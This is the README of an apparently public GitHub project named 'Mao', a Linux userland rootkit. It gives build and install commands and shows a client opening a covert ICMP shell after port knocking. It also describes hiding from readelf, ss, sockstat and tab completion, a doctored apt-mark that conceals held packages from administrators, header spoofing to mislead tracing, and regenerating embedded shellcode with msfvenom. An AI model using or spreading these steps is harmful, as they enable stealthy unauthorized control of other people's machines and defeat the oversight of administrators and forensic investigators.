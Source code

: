 # Mao
A protracted people's rootkit.<br><br>
<img src="https://i.redd.it/4pwkibrp0uq91.jpg" />

Another x86_64 userland rootkit for Linux. 
---

Like in real life, Mao took a lot of inspiration from <a href="https://github.com/mephistolist/hoxha">Hoxha</a>. While his style differed from <a href="https://github.com/mephistolist/tito">Tito</a>, they both integrated elements of Capitalism into their economies. At the same time, Mao had his own theory and legacy. For this reason you may find elements of the two previously mentioned projects, but a great deal of improvements and changes. Better mutation, anti-forensics and better hiding on the system. Again, I will probably hold off on going in-depth on this project until after it publication. 

You will need to install one dependency in order to build this code:

```
sudo apt install libreadline-dev
```

You can then download make and install with the following:

```
git clone https://github.com/mephistolist/Mao.git; cd Mao; make; make install;

```

After this you should have a binary called 'enver', you cannot see in the project directory. However, you can type 'enver' with the ip address of where you have this installed to connect:

```
./enver 127.0.0.1
[*] Initiating knock sequence. Please wait.
[*] ☭ Political power grows out of the barrel of a gun. ☭
[+] ICMP shell connected. Type commands (type 'exit' to quit):
icmp-shell>
```

New Features
---

The enver client taken from <a href="https://github.com/mephistolist/hoxha">Hoxha</a> has the ability to spoof X-Forwarded-For, X-Originating-IP, X-Remote-IP and X-Remote-Addr headers. In the event someone was to intercept your traffic and you have spoofed your ip via a vpn or proxy, these headers give away your true location, or confuse someone further if also spoofed. 

You will also notice that both enver and hoxha have checks to ensure that the hex value of 0xDEADBEEF is passed. So even after the port-knocking checks and passwords, that will be need to be passed with each packet to ensure the connections stays in place.

Unlike with <a href="https://github.com/mephistolist/hoxha">Hoxha</a>, we will be hidden from readelf, sockstat, ss and tab completion. Though you may need to exit SSH and reconnect after installing to see the hidding from tab completion worker.

To prevent overwriting of packages that would fool an administrator, we will also install a custom version of apt-mark that will not show packages we have put on hold. 

Devlopment Notes
---

If you make changes to this code, you will need to regenerate its binary data with msfvenom:

```
msfvenom -p linux/x64/exec CMD=/usr/bin/hoxha -f raw -o shellcode.bin -b "\x00\x0a\x0d"
```

Then convert that to base64:

```
cat shellcode.bin | base64 -w0
```

Then replace it with the base64 inside libexec.c and recompile to apply your changes. 

If you want to make changes to the binaries in the 'tools' directory, you can grep for 'Mao' in the source code to see where we have made our edits:

```
grep -nr Mao .
./sockstat.c:299:    /* --- Mao Handler --- */
./readelf.c:1977:	/* Mao hook */  
./ss.c:2469:    	/* Mao hook to hide ICMP/ICMPv6 sockets entirely */
./apt-mark.cc:368:    // Mao - packages to filter out
```

This has currently been tested on Debian Forky using kernel 6.16.7.
